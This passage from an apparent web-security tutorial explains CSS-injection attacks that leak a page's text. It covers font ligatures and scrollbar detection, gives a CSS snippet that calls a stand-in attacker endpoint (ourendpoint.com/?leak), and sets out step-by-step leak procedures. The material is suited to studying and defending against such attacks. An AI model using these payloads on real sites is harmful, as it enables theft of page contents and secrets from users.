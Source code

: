 When the attribute white-space is defined as **nowrap** it forces the text to do not break when it exceeds the parent’s width. In this situation, an **horizontal scrollbar will appear**. And we can **define the style of that scrollbar**, so we can leak when this happens **:)**

```css
body { white-space: nowrap }; 
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://ourendpoint.com/?leak); }
```

At this point the attack is clear:

1. Create **fonts** for the combination of **two chars with huge width**
2. Detect the **leak via the scrollbar trick**
3. Using the first ligature leaked as base, create **new combinations of 3 chars** (adding before / after chars)
4. **Detect** the **3-chars ligature**.
5. Repeat until **leaking the whole text**

We still needing an improved method to start the iteration because `<meta refresh=...` is suboptimal. You could use the **CSS @import trick to optimize the exploit**.

### Text node exfiltration (II): leaking the charset with a default font <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Reference:** [PoC using Comic Sans by @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

This trick was released in this [**Slackers thread**](https://www.reddit.com/r/Slackers/comments/dzrx2s/what\_can\_we\_do\_with\_single\_css\_injection/). The charset used in a text node can be leaked **using the default fonts** installed in the browser: no external -or custom- fonts are needed.

The key is to use an animation to **grow the div width from 0 to the end of the text**, the size of a char each time. Doing this we can “split” the text in two parts: a “prefix” (the first line) and a “suffix”, so every time the div increases its width a new char moves from the “suffix” to the “prefix”. Something like:

**C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**

When a new char goes to the first line, the **unicode-range trick is used to detect the new character in the prefix**. This detection is made changing the font to Comic Sans, which its heigth is superior so a **vertical scrollbar is triggered** (leaking the char value). This way we can leak every different character one time. **We can detect if a character is repated but not what character is repeated**.

{% hint style="info" %}
Basically, the **unicode-range is used to detect a char**, but as we don't want to load an external font, we need to find another way.\
When the **char** is **found**, it's **given** the pre-installed **Comic Sans font**, which **makes** the char **bigger** and **triggers a scroll bar** which will **leak the found char**.
{% endhint %}
